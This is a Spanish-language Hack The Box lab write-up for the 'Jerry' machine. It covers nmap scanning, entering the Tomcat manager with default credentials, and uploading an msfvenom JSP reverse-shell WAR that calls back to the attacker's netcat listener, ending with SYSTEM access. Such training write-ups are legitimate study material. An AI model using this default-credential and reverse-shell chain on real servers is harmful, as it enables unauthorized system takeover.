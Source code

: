 ```yaml
---
title: Jerry
description: Máquina Jerry de Hackthebox
date: 2024-07-23 21:00:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Windows
tags:
  - Information Leakage
  - Abusing Tomcat
image:
  path: /assets/img/Jerry/Jerry.png
---
```


## Skills

- Information Leakage
- Abusing Tomcat [Intrusion & Privilege Escalation]
  
## Certificaciones

- eJPT

## Descripción

`Jerry` es una máquina `easy windows`, hay un tomcat por el `puerto 8080`, usando las `credenciales` por `defecto`accederemos a `/manger/html` donde subiremos un `.war` malicioso que usaremos para ganar `acceso` a la máquina víctima como usuario `Administrator`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `windows` suele ser `128`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.191.206
PING 10.129.191.206 (10.129.191.206) 56(84) bytes of data.
64 bytes from 10.129.191.206: icmp_seq=1 ttl=127 time=165 ms
64 bytes from 10.129.191.206: icmp_seq=2 ttl=127 time=131 ms
^C
--- 10.129.191.206 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 131.328/148.125/164.923/16.797 ms
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -Pn -n -v 10.129.191.206 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:29 CEST
Initiating SYN Stealth Scan at 18:29
Scanning 10.129.191.206 [65535 ports]
Discovered open port 8080/tcp on 10.129.191.206
Completed SYN Stealth Scan at 18:29, 26.38s elapsed (65535 total ports)
Nmap scan report for 10.129.191.206
Host is up (0.061s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
           Raw packets sent: 131089 (5.768MB) | Rcvd: 21 (924B)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 8080 10.129.191.206 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:30 CEST
Nmap scan report for 10.129.191.206
Host is up (0.059s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```

### Web Enumeration

Cuando accedemos a `http://10.129.191.206:8080` vemos lo siguiente

![](/assets/img/Jerry/image_1.png)

Cuando intentamos acceder a `/manger/html` nos aparece este panel de `login`

![](/assets/img/Jerry/image_2.png)

Al usar un `listado` de `credenciales` por `defecto` que podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials) ganamos acceso con las credenciales `tomcat:s3cret`

![](/assets/img/Jerry/image_3.png)

## Intrusión

Creamos con `msfvenom` un archivo `.war` para ganar acceso a la máquina víctima

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.16 LPORT=443 -f war -o revshell.war  
```

`Subimos` el archivo `.war malicioso`

![](/assets/img/Jerry/image_4.png)

Nos ponemos en `escucha` mediante `netcat` en el `puerto 443`

```
# nc -nlvp 443
```

Hacemos `click` sobre el `archivo`, lo que nos llevará a `http://10.129.191.206:8080/revshell/` ejecutándose y enviándonos una `reverse shell` a nuestro equipo

![](/assets/img/Jerry/image_5.png)

Ganamos acceso al equipo como `nt authority\system`

```
# nc -nlvp 443      
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.191.206] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
